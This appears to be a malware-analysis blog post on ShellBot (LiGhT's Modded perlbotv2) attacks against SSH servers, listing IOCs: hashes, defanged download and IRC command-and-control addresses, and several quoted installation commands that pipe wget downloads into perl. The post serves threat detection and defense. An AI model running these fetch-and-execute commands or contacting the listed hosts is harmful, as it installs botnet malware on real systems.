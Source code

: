<img width="650" alt="Screen Shot 2023-06-01 at 12 57 32 PM" src="https://github.com/EnyelSalas/Blog-Portfolio/assets/115824437/ebcc7c47-1f5a-4ec8-8345-734582a657f5">

<img width="520" alt="Screen Shot 2023-06-01 at 12 59 33 PM" src="https://github.com/EnyelSalas/Blog-Portfolio/assets/115824437/2942a0bd-73aa-4c14-85e0-c8a9f6fe1fee">

<img width="532" alt="Screen Shot 2023-06-01 at 12 59 47 PM" src="https://github.com/EnyelSalas/Blog-Portfolio/assets/115824437/4ba16d6a-559b-401e-a5d4-6fc3078e241f">


Indicators of Compromise (IOC):

File Detection– Shellbot/Perl.Generic.S1100 (2020.02.12.00)– Shellbot/Perl.Generic.S1118 (2020.02.19.07)

IOCMD5– bef1a9a49e201095da0bb26642f65a78 : ak– 3eef28005943fee77f48ac6ba633740d : mperl– 55e5bfa75d72e9b579e59c00eaeb6922 : niko1– 6d2c754760ccd6e078de931f472c0f72 : perl– 7ca3f23f54e8c027a7e8b517995ae433 : bash– 2cf90bf5b61d605c116ce4715551b7a3 : test.jpg– 7bc4c22b0f34ef28b69d83a23a6c88c5 : dred– 176ebfc431daa903ef83e69934759212 : ff

Download URLs– x-x-x[.]online/ak– 193.233.202[.]219/mperl– 193.233.202[.]219/niko1– hxxp://34.225.57[.]146/futai/perl– 80.94.92[.]241/bash– hxxp://185.161.208[.]234/test.jpg– hxxp://39.165.53[.]17:8088/iposzz/dred– hxxp://80.68.196[.]6/ff

C&C URLs– 164.90.240[.]68:6667 : ak– 206.189.139[.]152:6667 : mperl– 176.123.2[.]3:6667 : niko1– 164.132.224[.]207:80 : perl– 51.195.42[.]59:8080 : bash– gsm.ftp[.]sh:1080 : test.jpg– 192.3.141[.]163:6667 : dred– 49.212.234[.]206:3303 : ff

Behavior similarities:
Rising MOVES
bad86cb7d09ab232edd2ddf8dddb1bb4
VirusTotal Box of Apples
1867e1cc695e361278f52100f36feb1e
Zenbox Linux
2dd457b43cdd9173e3e02ecb5a947d28

“LiGhT’s Modded perlbotv2” is being used by a variety of threat actors. The following commands are used in the ShellBot installation after the SSH server has been successfully logged into.

Filename: ak
Installation Command: wget -qO – x-x-x[.]online/ak|perl

Filename: perl
Installation Command: nproc; nvidia-smi –list-gpus ;cd /tmp;wget -qO – http://34.225[.]57.146/futai/perl|perl;rm -rf perl

Filename: mperl
Installation Command: cd /tmp ; wget 193.233.202[.]219/mperl ; perl mperl ; rm -rf mperl

Filename: niko2
Installation Command: cd /tmp ; wget 193.233.202[.]219/niko1 ; perl niko1 ; rm -rf niko1


Commands used to install LiGhT’s Modded perlbot v2:
Configuration data such as the C&C server and the name of the channel to join are included in the initial routine of ShellBot. A nickname with the format “IP-[5 random digits]” is used to join the IRC channels.

<img width="561" alt="Screen Shot 2023-06-01 at 1 05 53 PM" src="https://github.com/EnyelSalas/Blog-Portfolio/assets/115824437/236f9194-203e-440e-82a2-31cce4921ca7">
